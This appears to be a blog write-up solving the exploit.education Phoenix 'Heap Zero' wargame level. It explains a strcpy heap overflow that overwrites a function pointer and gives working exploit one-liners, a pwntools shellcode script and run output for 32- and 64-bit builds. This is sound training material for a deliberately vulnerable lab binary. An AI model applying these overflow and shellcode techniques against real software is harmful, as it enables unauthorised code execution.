 ```yaml
---
layout: post
title: "exploit.education Phoenix - Heap 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Heap 0

Write-up for: [https://exploit.education/phoenix/heap-zero/](https://exploit.education/phoenix/heap-zero/).

<!--more-->

## Solution

The goal is to redirect execution to the winner() function. This could be achieved by overwriting
the `fp` function pointer of `f`. `f` is located after `d` on the heap. `d` is filled using `strcpy`
without bounds checking. This means we can overflow the `name` field of `d` in order to overwrite
`f->fp`. Note that this will also overwrite control data of `f` which will probably make any call
to `free` crash later on.

Since there is no memory protection (like ASLR), we can simply find out the address of the `winner`
function using objdump:

```
user@phoenix-amd64:/opt/phoenix/i486$ objdump -d heap-zero | grep winner
08048835 <winner>:
```

Now we need the offset of `f->fp` from `d->name` which we can write arbitrary data to.
Given the informative output of the program we can easily deduct the offset by probing
the executable (e.g. using binary search or using a unique pattern). Alternatively,
by looking at the source, we know that the `data` struct uses 64 bytes of memory, followed
by 8 bytes of heap control structure for `f` (prev_size, size). This means the function pointer we want to overwrite
is located 72 bytes after `d->name`. This results in the following exploit:

```
./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

Note that `[::-1]` reverses a string in Python.

## 64-bit version

The 64-bit version makes this challenge a bit trickier since the address of `winner` contains null bytes that will end the string when read with `strcpy`. Thus, to get to the `winner` function, we add a level of indirection. We put a short shellcode at the beginning of our buffer that jumps to the winner function (`push ADDR; ret`). Using the buffer overflow, we can overwrite the function pointer `fp` with the address of our buffer, which doesn't contain any null bytes. This is the exploit:                                                                                               
```
# getting the required addresses
user@phoenix-amd64:~$ /opt/phoenix/amd64/heap-zero test
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x400ace

user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/heap-zero | grep winner
0000000000400abd <winner>:
```

```Python
import pwnlib
import struct

DATA_ADDR = 0x7ffff7ef6010
WINNER_ADDR = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER_ADDR)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + "A" * (80 - len(shellcode)) # offset between fp and buf is 80
buf += struct.pack("<Q", DATA_ADDR)

print buf
```

And running the exploit:

```
user@phoenix-amd64:~$ /opt/phoenix/amd64/heap-zero $(python heap0_64.py)
-bash: warning: command substitution: ignored null byte in input
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x7ffff7ef6010
Congratulations, you have passed this level
```

Nice!
